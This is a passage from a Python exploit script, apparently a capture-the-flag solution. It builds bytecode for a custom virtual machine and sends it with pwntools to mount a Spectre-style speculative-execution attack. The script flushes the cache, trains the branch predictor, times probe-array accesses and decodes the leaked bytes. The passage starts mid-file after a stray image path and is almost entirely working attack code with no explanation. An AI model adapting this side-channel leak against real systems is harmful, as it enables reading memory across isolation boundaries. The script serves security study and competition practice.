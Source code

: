 ```builtin_time
    return Movc(5, 0)

def test_time_body():
	ret = Movc(3, 0) + Movc(2,1) + Movc(1,0)
	ret += Add(1,5) + Add(3,2) + Loop(3, 166, len(code)+len(ret))
	ret += Movc(3,13) + Add(1,3) + Movc(3,255) + And(1,3) + Mov(4,1) + Movc(6,9) + Shl(1,6) + Movc(6,array2) + Add(6,1)
	ret += Builtin(1, 1) + Load(0, 6) + Builtin(0, 1) + Sub(0, 1)
	ret += Movc(3,3) + Shl(4,3) + Add(4, 7) + Store(4,0) + Movc(3,1) + Add(5,3)
	return ret

def get_loop(reg, cond, val):
    return Loop(reg, cond, val);


array2 = 0x1800000
flush_use = 0x800000

code = ''

code += Movc(7,0)

# array2 is use to verify cache hit
# Fist assign prevent copy on write zero page
code += access_init(array2)
code += access_body(0x1) + get_loop(0, array2+0x7fff00, len(code))

code1 = code

# Flush out cache by accessing other mem
for i in range(100):
    code += access_init(flush_use)
    code += access_body(i) + get_loop(0, flush_use+0xffff00, len(code))

# training speculative execution
code += Movc(6,0)
code += (train_init() + train_body()) + Movc(5,1) + Add(6,5) + Loop(6,50-1,len(code))

# Test access time with array2[i*512] for i in range(256)
code += test_time_init()
code += test_time_body() + get_loop(5, 255, len(code))

code += Movc(6, 2048) + Add(7, 6) + get_loop(7, 0x800, len(code1))
code += Epilogue()

payload = p64(len(code))+code

# output bytecodes
with open("code","w") as file:
    file.write(payload)

# analyze output
r.send(payload)
data = r.recvall()
for i in range(0, 0x1000, 8):
    if(u64(data[i:i+8]) < 80):
        print(chr( (i/8 ) % 256), u64(data[i:i+8]))


r.interactive()

```
